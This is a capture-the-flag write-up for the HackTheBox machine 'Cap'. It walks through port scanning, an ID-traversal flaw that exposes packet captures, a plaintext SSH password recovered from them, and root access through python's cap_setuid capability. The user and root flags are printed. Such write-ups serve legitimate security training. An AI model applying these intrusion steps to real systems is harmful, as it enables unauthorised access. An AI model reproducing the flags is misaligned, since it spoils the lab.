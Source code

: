 # Cap
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC -Pn 10.10.10.245 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-12 10:06 PDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:07:00 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=8/12%Time=64D7BC2E%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Sat,\x2012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sat,\x2
SF:012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20S
SF:at,\x2012\x20Aug\x202023\x2017:07:00\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.15 seconds
```

It seems the machine allows ssh login and there's a web application running. 

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85bce359-8ad2-455c-9e21-e1ff0bc6da61)


After clicked the security snapshot, I noticed there's an ID at the url.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d96dc3b-9be5-4925-a34d-47115df003dc)


Well it seems we can traverse to any network results, found the result that should be our interest at id 0.

> INTEREST (number of packets captured is larger then the others).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf964b57-90be-44b7-9ffc-2dc3138fcee8)


> WIRESHARK FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/39c02828-5452-403f-b9bb-2b5fccdb9a8a)


After followed through every tcp stream, found a cred at 3rd tcp stream.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5c5f493-7475-4026-8233-8c9aa812e5dc)


Let's do ssh login.

> nathan:Buck3tH4TF0RM3!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/77201f6b-f429-48e6-be32-356481f94950)


> USER FLAG

```console
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
df948242cd2265ee3b0c7979f5995c29
nathan@cap:~$ 
```

## USER FLAG

```
df948242cd2265ee3b0c7979f5995c29
```

To get the root flag, maybe this is kinda unintended, based from the challenge title, it reminds me of `getcap` for python version.

> USING GETCAP TO IDENTIFY CAPABILITIES

```console
nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The capabilities is not the default setting, `CAP_SETUID` allows the attacker to gain privesc without the `SUID` bit set. Here's how:

> PRIVILEGE ESCALATION

```console
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/sh')
# whoami
root
# 
```

We got root!

```console
# ls /root              
root.txt  snap
# cat /root/root.txt 
a2426fa1f3878250b8b12efe990ebc4a
# 
```

## ROOT FLAG

```
a2426fa1f3878250b8b12efe990ebc4a
```
